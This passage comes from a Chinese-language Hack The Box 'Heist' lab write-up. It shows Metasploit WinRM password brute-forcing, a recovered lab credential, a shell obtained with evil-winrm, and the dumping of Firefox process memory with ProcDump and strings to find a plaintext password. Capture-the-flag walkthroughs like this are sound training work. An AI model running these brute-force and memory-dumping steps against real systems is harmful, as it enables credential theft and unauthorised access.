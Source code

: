 目标机上开放了winrm 5985端口
将解密出来的密码和用户名添加到txt文件
使用metasploit来尝试爆破密码

```
use auxiliary/scanner/winrm/winrm_login
set pass_file /root/HTB/Heist/password.txt
set user_file /root/HTB/Heist/user.txt
set rhosts 10.10.10.149
run
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203174209.png)

成功跑出来一个
`chase:Q4)sJu\Y8qz*A3?d`
使用[evil-winrm](https://github.com/Hackplayers/evil-winrm)工具获取shell
得到`user.txt`

```
gem install evil-winrm     // 安装evil-winrm
evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203163853.png)

# 0x06 dump进程

然后找了一圈，没发现其它的东西
查看进程，发现有几个`Firefox`进程

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203183945.png)

然后尝试上传[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)工具

`upload /root/HTB/Heist/procdump64.exe`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203184357.png)

`./procdump64.exe -mp 6176    // 6176为进程ID号`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203204506.png)

再上传[Strings](https://docs.microsoft.com/en-us/sysinternals/downloads/strings)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191203205249.png)

使用`strings`工具读取`dmp`文件，并保存结果为`txt`
查找`txt`文件发现该浏览器不断请求这个url 并且是明文密码传输

```
cmd /c "strings64.exe -accepteula firefox.exe_191203_172802.dmp > firefox.exe_191203_172802.txt"
findstr "password" ./firefox.exe_191203_172802.txt
```
